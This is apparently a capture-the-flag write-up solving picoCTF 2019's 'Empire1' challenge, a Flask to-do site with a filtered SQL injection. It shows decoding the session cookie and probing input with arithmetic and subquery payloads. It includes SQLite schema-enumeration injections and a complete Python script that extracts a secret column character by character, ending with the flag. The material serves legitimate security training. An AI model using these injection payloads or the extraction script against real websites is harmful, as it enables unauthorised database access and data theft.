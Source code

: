<h3>Challenge #10 - Empire1</h3>

<blockquote><i>Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. https://2019shell1.picoctf.com/problem/27357/ (link) Can you first find the secret code they assigned to you? or http://2019shell1.picoctf.com:27357</i></blockquote>  

<p>In this challenge we have a site with login and register form.</p>  

<p>First things first I inspected the page to see if there is any hidden login logic in some form of script,which wasn't the case.After creating a user and logging in I've caught one thing.The session cookie looked quite odd: </p>

```javascript
session=.eJwlj0FqQzEMRO_idRayJEt2LvORZYmGQAv_J6vSu8fQWb95zPyWI8-4vsr9db7jVo7HKveCHTAqM7r6cFhdIeoO2-i0eA6UEUnihrMFk5upSGJl9UWQMmf20Rc1arAWmyaw6OC6Teg5g5XSWptrRjRMbyYA5hvZEiq34teZx-vnGd97jxNn776BUWVgtypNOhFNNVimwO48XXbvfcX5f4LK3wdBOT5K.XmPcqA.dDQLm8QVYSADCJMay9b9Rh3dpc0
```

<p>So I had to determine in what framework the server was written. From previous picoCTF's i guessed with Flask. So I've tried decoding the cookie. And I was right since this JSON object was result of it.</p>  

```javascript  
{
    "_fresh": true,
    "_id": "2802e1442c7c9c0d870e11114a983d4b9269ef36ca2b5e43caa766f2147cd30f6bbf898d35350dd4a7f04679418702cfbe473fa55bdbee52fc5a600ac7942143",
    "csrf_token": "c34f88c0ac916928a16568333b7a0da704cc4bc6",
    "user_id": "3"
}  
```  
<p>So we do see that user_id value is 3.</p></br>
<p>Have in mind<quote>Flask, by default, uses the URL-safe signed serializer "itsdangerous" to encode its client-side session cookies. A Flask app uses a secret key to sign the session cookie so that the client can't modify it.</quote><br>  
Which means if we could spoof the secret key we would be able to modify the cookie by swapping the value to 1 which would be admin value , and get the session cookie for admin.</p>  

<p>So I've registered account with some random name and then you can see the multiple pages as a user.You see Employees listing,Add todo ,Your todos.  
Empoyees listing was interesting because it looks like a typical SQL table , 3 columns with fields Employee id, Username, Name.<br> Then in Add Todo we have a input field where we can input some text and that is going into list on the page Your Todos.

First I've tried testing the input simply with providing <b>ASCII alphabet</b> you can either google or just make this one liner in python :</p></br>
<code>"".join(chr(x) for x in range(32,127))</code><br></br>
<p>That instantly crashed and gave me internal server 500 error.</br>After that I tried all upper and lowercase letters from A-Z. Which didn't show any strange behaviour. However when I tried single quotes ' and other math logical operators and some of them crashed again.  
<br>
I've tried simple classic SQL injection for authentication OR 1 '=' 1 which weirdly evaluated to 0. <br>
That was very weird and i had to realize what is being filtered out.</p>  

<p>I've tried doing '+ 12 +' which evaluated into 12.So i've tried simple expression '+ 1 + 2  +' which evaluated into 3. Which was pretty nice.<br> I was getting somewhere with that.</p>   

<p>After that I tried taking it step further and making query so i tried '+ SELECT +' and that crashed. So i realized that those words must be filtered and i wanted to try query inside of parantheses . <br>  
So i've tried '+ (SELECT 1) +' and that evaluated to 1. From that point i determined that i can do <b>queries</b>.</p>  

<p>Next I would have to enumerate what engine of sql is running on so I can focus on injecting payload for that type of SQL. There are various functions for certain type of engine to get the version info. The one that worked was '+ <code>sqlite_version()</code> +' that returned me the 3.22 which confirmed it is SQLite engine. </p> 

<p>Now we have to try to get info of our database , specifically table and columns etc.</p>

<p>There are some interesting methods that could give you information that you are looking for, like:PRAGMA functions, 
sqlite_master as main schema holder.</p> 

<p>So first thing i wanted to know is the name of the table.</p>  
<code> '+ (SELECT hex(name) FROM sqlite_master) +'</code>
</br>
<p>With this you can extract table name by using hex value for name parameter,this resulted in 75736572 which is <b>"user"</b>. </br>Good so far we have name of our table.

After that i wanted to to extract the name of columns , most likely trying to find something like password or similar column name.</p>  
 
<p>The straight away i tried checking if there is column with name of password or secret by doing :</p>  
<code>'+(SELECT 1 FROM PRAGMA_TABLE_INFO("user") WHERE name="secret") +'</code></br>  
<p>Which actually returned 1 (password returned 0) and that was pretty positive for knowing that the column with name secret exist which should mean that should be column for user passwords.Now remember the part of the hint <q><i>"Can you first find the secret code they assigned to you?</i></q><br>Let's try that : <br>  
<code> '+(select hex(secret) from user where name="asd") +'</code> </p> 
<br>  
Not surprisingly that returned us 7069636 converted to ASCII (as 7069636)  = "pic" <br>  
Which seems like the part of the flag because we know that flag is starting with picoCTF{...}  
Very interesting..  

But there is one more detail in here.Starting with the question why are we only getting 3 letters, flag is usually longer.<br>  
2 conclusions arrives :  
<li>characters are getting truncuted a-f as hexadecimal digit</li>
<li>number is 32 bit integer truncated</li>

So how do we work around this? Substring for number truncation,we get only 1 digit number at a time that means it is truncated , 2 digit number it's not truncated,only above 8 digit number gets truncated(we got only 7 digits from our secret).  
So we are definitely going to make a script for generating requests and collecting the output digits.  
<br>  
Our request payload should have query like this :<br>
<code>'+ (SELECT hex(substr(secret,0,1))  FROM user where id="3") +'</code>  

<p>The idea is to make request till i reach reach number 0 as an output which would indicate that the value ends there. Once i collect all the hexadecimal digits,the single digits should be compared with (a,b,c,d,e,f) and one of those could give me missing part of the whole flag.</p>

<p>So I've made a <a href="https://github.com/DejanJS/picoCTF-Writeups-2019/blob/master/10.Empire1/script.py">script</a> that will do this for us.</p>

<p>Let's explain what is going on in this script:</p>  

You are going to need some scraping library , I've used Beautiful Soup,since response that we need is being generated inside of the other page and csrf token is binded to input field, so you have to keep session alive.  

```python  

import requests
import json
from bs4 import BeautifulSoup
import string

i = 0
result = []
a_to_f = [w for w in string.ascii_lowercase[:6]]
my_session = requests.Session()
register = my_session.get('https://2019shell1.picoctf.com/problem/27357/login')
soup = BeautifulSoup(register.text,'html.parser')
csrf = soup.find(id="csrf_token").get('value')

login = my_session.post('https://2019shell1.picoctf.com/problem/27357/login',data={'csrf_token':csrf,'username':'e','password':123})
item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
soup2 = BeautifulSoup(item_list.text,'html.parser')
items = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')]  
```  

After that we have to post our data with our sql injection query and collect results of our response : <br>  
```python  
while True:
  i = i + 1
  my_session.post('https://2019shell1.picoctf.com/problem/27357/add_item',data={'csrf_token':csrf,'item':f"'+ (SELECT hex(substr(secret,{i},1))  FROM user where id='3') +'"})
  item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
  soup2 = BeautifulSoup(item_list.text,'html.parser')
  items = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')]
  if '0' in items:
    #pop 0
    items.pop()
    result.extend(items)
    break  
```  

At the end we have to go through results and loop over possible values of hexadecimals digits , but the best way is to make post once again by substringing and comparing each letter that we already got other possible letters as hexadecimals that we got(which means if we make something like <code>'+ (SELECT (substr(secret,4,1)='o') FROM user where id='3') </code><br>  ,for example)
Response for correct letter is going to be 1 and 0 for non existent .  
```python  
if len(result) > 0:
    for idx,res in enumerate(result):
        if len(res) == 1 and res != "0":
            result[idx] = {'hex':res,'possible_values':[bytearray.fromhex(res + ch).decode() for ch in a_to_f]}
            for k in result[idx]["possible_values"]:
              print(f"Testing {idx} for {k}...")
              my_session.post('https://2019shell1.picoctf.com/problem/27357/add_item',data={'csrf_token':csrf,'item':f"'+ (SELECT (substr(secret,{idx+1},1)='{k}')  FROM user where id='3') +'"})
              item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
              soup2 = BeautifulSoup(item_list.text,'html.parser')
              item = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')][-1]
              print("ITEM : " ,item)
              if item == '1':
                result[idx] = k
                break
        else:
           result[idx] = bytearray.fromhex(res).decode()


print('FLAG : ',"".join(result))  
```  

And we get the flag : <br>
<code><b>picoCTF{wh00t_it_a_sql_inject9899be1a}</b></code>
